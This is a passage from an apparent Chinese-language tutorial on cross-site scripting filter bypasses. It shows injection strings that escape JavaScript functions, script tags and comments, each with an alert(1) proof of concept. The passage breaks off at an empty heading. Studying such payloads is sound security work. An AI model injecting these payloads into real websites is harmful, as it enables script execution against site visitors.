 但是这样只有在调用test()才能执行，所以我们要跳出这个函数输入：`test'){1}}//` 封闭test()函数：

```javascript
function test(){
    if(test =='test'){1}}//'){
    //something
    }
    else
    {
    //something
    }
}
```

我们在使用`test'){1}};alert(1);function test1(){ if(1){//` 把对应的test位置替换下，利用test1 来封闭剩下的函数，但是这样执行会有错误，我们使用ES6的箭头函数来替代`function` :

```javascript
function test(){
    if(test =='test'){1}};alert(1);test1=>{ if(1){//'){1}}//'){
    //something
    }
    else
    {
    //something
    }
}
```

**未设置过滤情况下使用script标签闭合**

```html
<script>var website="  http://xxx.com"</script><script>alert(1)//  ";</script>
```

**双引号绕过`<`过滤**

```html
<script>var website="http://www.xxx.com/"-alert(1)//";</script>
```

`-alert(1)//"`中，减号用于：让js语句不发生错误

*(+，在 url 的 uqery 中是空格的编码，而 % 号是表示url编码的标识符，/号在url中是表示一个path，所以用减号最合适。)*

**使用换行符跳过注释**

```html
<script>//var website="http://www.xxx.com/
		alert(1)// ";</script>
```

**多行注释绕过**

```html
<script>/*var website="http://www.xxx.com/  */alert(1)//  ";*/</script>
```

**利用html编码闭合单引号**
